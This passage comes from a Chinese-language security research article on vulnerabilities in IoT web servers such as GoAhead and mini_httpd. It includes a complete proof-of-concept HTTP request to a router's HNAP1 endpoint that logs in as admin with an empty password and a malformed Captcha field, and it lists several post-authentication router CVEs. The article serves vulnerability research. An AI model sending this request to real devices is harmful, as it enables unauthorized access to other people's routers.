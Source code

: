 ```c
    {
LOGIN_FAIL:
        ...
        return 1;
    }
}
```

参考POC构造如下：

```plaintext
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 
Accept: */*
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 00DAB25BFD3EBF8FAD03E60E5616BF44 1598580346156
SOAPAction: "http://purenetworks.com/HNAP1/"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Content-Type: text/xml; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Home.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://purenetworks.com/HNAP1/">
      <Action>login</Action>
      <Username>admin</Username>
      <LoginPassword></LoginPassword>
      <Captcha/><Captcha>
    </Login>
  </soap:Body>
</soap:Envelope>
```

#### 其他认证后的存在的漏洞

GoAhead中由于很多业务代码是通过定义接口+回调函数的形式集成到自身，代码量增多导致发生漏洞的可能增大，如下是一些典型的GoAhead认证后漏洞，包含常见的漏洞缓冲区溢出、命令执行。

* CVE-2021-43474：D-Link DIR 823G中的认证后命令注入
* CVE-2020-10987：Tenda AC15中的认证后命令执行
* CVE-2018-11013：D-Link DIR 816A2中的认证后缓冲区溢出

## 三、mini_httpd篇

mini_httpd是一个小型的HTTP服务器，它的代码非常小巧，仅有几千行代码，其可以在多种操作系统上运行，包括Linux、FreeBSD、Solaris、Windows等。mini_httpd支持动态内容的生成，包括CGI、SSI以及FastCGI，同时它也支持虚拟主机和基本的身份验证，这满足了绝大部分的IoT Web server应用场景，结合其小体量的代码，被广泛应用于嵌入式设备和低功耗系统中。
